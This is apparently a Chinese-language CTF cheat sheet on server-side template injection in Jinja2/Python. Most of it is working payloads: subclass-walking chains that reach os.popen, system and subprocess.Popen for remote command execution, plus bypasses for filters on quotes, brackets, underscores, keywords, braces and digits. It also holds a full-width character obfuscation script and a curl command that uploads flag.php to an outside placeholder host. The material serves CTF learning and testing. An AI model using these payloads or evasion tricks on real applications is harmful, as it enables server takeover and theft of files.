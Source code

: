 # SSTI

## SSTI基础

## 

## SSTI注入

### Magic function

* `__class__` 返回对象所属的类（即实例化该对象的类对象）

* `__bases__`  返回类的直接父类元组

* `__mro__` 显示方法解析顺序（Method Resolution Order），决定多重继承下的方法调用优先级

* `__subclasses__()` 返回类的直接子类列表

* `__init__` 构造函数，初始化实例属性

* `__globals__`  
	
	* 核心功能：返回函数所属模块的全局变量字典（仅函数对象拥有此属性）。
	* 安全风险：常被用于沙箱逃逸攻击，如通过 func.__globals__ 访问内置模块。
	
* `__builtins__` 它提供了对 Python 核心功能的全局访问权限

* `__getitem__`使对象可以像字典一样通过键（`key`）访问值，适用于自定义映射类型

  ```python
  	class Config:
      def __init__(self):
          self.data = {'host': 'localhost', 'port': 8080}
      def __getitem__(self, key):
          return self.data.get(key, 'N/A')  # 处理默认值
  
  config = Config()
  print(config['host'])  # 输出 'localhost'
  print(config['user'])  # 输出 'N/A'
  ```

* 
### SSTI 绕过
#### RCE 的危险类
|           类名           | 索引范围 |          利用方式           |                         典型Payload                          |
| :----------------------: | :------: | :-------------------------: | :----------------------------------------------------------: |
|     `os._wrap_close`     | 130-150  |      直接调用`os`模块       | `{{ subclasses[X].__init__.__globals__['os'].system('id') }}` |
| `warnings.catch_warning` | 59、166  | 通过`linecache`间接调用`os` | `{{ subclasses[59].__init__.__globals__['linecache'].os... }}` |
|    `subprocess.Popen`    |   255+   |   直接创建子进程执行命令    | `{{ subclasses[256]('whoami', shell=True,stdout=-1).communicate()[0] }}` |

#### 引号绕过

例子POC：

```python
{{().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__[request.args.p](request.args.cmd).read()}}&p=popen&cmd=cat%20/flag

requset.args 替换 request.values、request.cookies
```

#### 方括号绕过

例子POC：

```python
{{().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(407)(request.values.a,shell=True,stdout=-1).communicate().__getitem__(0)}}&a=cat /flag
```

#### 下划线绕过

https://jinja.palletsprojects.com/en/stable/templates/#attr 官方文档

`foo` (`getattr(foo, 'bar')`) == `foo.__getitem__('bar')`

```python
{{lipsum.__globals__['os'].popen('cat /flag').read()}} -->
{{(lipsum|attr(request.cookies.x)).os.popen(request.cookies.y).read()}}
```

`lipsum|attr('__globals__')` 等价于 `lipsum.__globals__`

attr 是 Jinja2 模板的过滤器，允许通过字符串动态访问对象的属性。

#### 关键字绕过

```python
{{(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()}}
```

* .get(‘os’) 获取 __globals字典中的模块.

#### 使用lipsum

```python
lipsum.__globals__.get('os').popen('cat /flag').read()
```

#### {{}} 绕过

使用：`{% print() %}`

```python
{%print((lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read())%}
```

jinja2

```python
{% set a=(()|select|string|list).pop(24) %}    // a = _
{% set globals=(a,a,dict(globals=1)|join,a,a)|join %}  // globals=__globals__
{% set init=(a,a,dict(init=1)|join,a,a)|join %}
{% set builtins=(a,a,dict(builtins=1)|join,a,a)|join %}
{% set a=(lipsum|attr(globals)).get(builtins) %}
{% set chr=a.chr %}
{% print a.open(chr(47)~chr(102)~chr(108)~chr(97)~chr(103)).read() %}
```

* set 声明变量

```jinja2
{% set name = "Alice" %}  {# 赋值字符串 #}
{% set numbers = [1,2,3] %}  {# 赋值列表 #}
```

* |string 转换成字符串

* |select 生成过滤迭代器

* |list转换

* | join 默认将**字典的键（keys）**拼接为字符串

* dict(hh=1) 生成字典 {'hh' : 1}

* | count 获得字符串里的数字

#### 过滤数字

```
{% set two=(dict(aa=a))|join|length)%}
{% set two=(dict(aa=a))|join|count)%}
```

##### 半角转全角

脚本

```python
def half2full(half):
    full = ''
    for ch in half:
        if ord(ch) in range(33, 127):
            ch = chr(ord(ch) + 0xfee0)
        elif ord(ch) == 32:
            ch = chr(0x3000)
        else:
            pass
        full += ch
    return full
string = input("你要输入的字符串：")
result = ''
def str2chr(s):
    global  result
    for i in s:
        result += "chr("+half2full(str(ord(i)))+")%2b"
str2chr(string)
print(result[:-3])
```



#### 关于attr

1. 访问对象属性

   例如，若模板中传入一个对象

   ```
   user
   ```

   ，可通过

   ```
   {{ user|attr('name') }}
   ```

   获取其

   ```
   name
   ```

   属性值。这在处理动态属性名时非常有用

   调用对象方法

   若对象包含方法，如

   ```
   user.get_info()
   ```

   ，可通过

   ```
   {{ user|attr('get_info')() }}
   ```

   调用并输出结果
   
    
   
#### print绕过
##### 使用curl绕过
```bash
curl -X POST -F xx=@flag.php  http://aaa # xx表单字段
```

#### 一些POC

```python
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )

object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')

{{request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]['__in'+'it__']['__'+'glo'+'bal'+'s__']['__bu'+'iltins__']['ev'+'al']('__im'+'port__("os").po'+'pen("ca"+"t a.php").re'+'ad()')}}

().__class__.__mro__[1].__subclasses__()[407]("cat /flag",shell=True,stdout=-1).communicate()[0]
```